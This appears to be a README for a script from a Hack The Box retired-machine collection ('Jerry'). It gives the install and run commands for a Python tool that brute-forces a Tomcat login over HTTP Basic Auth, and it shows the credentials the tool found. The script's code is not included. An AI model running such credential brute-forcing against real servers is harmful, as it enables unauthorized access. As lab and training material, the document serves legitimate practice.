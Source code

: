# Simple Brute Force of Tomcat Login via Basic Auth

## Build 

I demonstrate installing [requests](http://docs.python-requests.org/en/master/) here using [pipenv](https://pipenv.readthedocs.io/en/latest/).  If you're running this on Kali, you almost certainly already have requests installed and can skip ahead.

{{< highlight text >}}
git clone https://gitlab.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/jerry
pipenv --three install requests 
{{< /highlight >}}

## Execution

{{< highlight text >}}
pipenv shell

python tomcat-login-brute.py
[+] Found credentials: tomcat:s3cret
{{< /highlight >}}

